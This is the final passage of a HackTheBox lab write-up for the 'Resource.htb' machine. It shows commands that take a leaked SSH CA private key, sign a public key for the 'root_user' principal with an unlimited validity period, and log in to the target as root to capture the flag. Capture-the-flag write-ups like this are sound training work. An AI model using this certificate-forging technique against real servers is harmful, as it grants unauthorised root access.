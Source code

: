 Edit the private key:
Open the private key file in a text editor:

```
nano root.key
```
Place the provided key content in the file:
```
chmod 600 root.key
```

https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/Screenshot%20from%202024-08-07%2022-16-39.png
Sign the public key to create a certificate:
```

ssh-keygen -s root.key -z 200 -I root -V -10w:forever -n root_user root.pub
```

Finally Connect to the target machine using the signed certificate:


```ssh root@itrc.ssg.htb -p2222 -i root -i root-cert.pub```

ANDDD WE GOT THE ROOT FLAGGG!!!!!
![](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/Screenshot%20from%202024-08-07%2022-17-09.png)

## Conclusion
Working through the 'Resource.HTB' machine was a challenging and rewarding experience that significantly enhanced my skills, pwning the 'Resource.HTB' machine took considerable time and effort, but the experience was invaluable. It taught me patience, persistence, and the necessity of a methodical approach to problem-solving in cybersecurity
